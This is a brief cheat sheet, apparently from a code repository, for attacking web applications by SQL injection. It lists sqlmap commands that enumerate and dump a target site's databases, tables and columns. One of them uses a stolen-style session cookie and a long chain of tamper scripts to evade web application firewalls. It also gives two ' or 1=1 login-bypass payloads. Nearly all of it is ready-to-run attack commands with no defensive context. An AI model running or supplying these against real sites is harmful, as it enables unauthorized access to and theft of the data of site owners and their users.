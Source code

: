 # SQLMAP

1. situsanda.com/news.php?id=1
2. python2 sqlmap.py "situsanda.com/news.php?id=1" --dbs
3. python2 sqlmap.py "situsanda.com/news.php?id=1" --tables -D situsanda
4. python2 sqlmap.py "situsanda.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "situsanda.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "situsanda.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "situsanda.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql

# SQL Injection
1. ' or 1=1 limit 1 -- -+
2. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
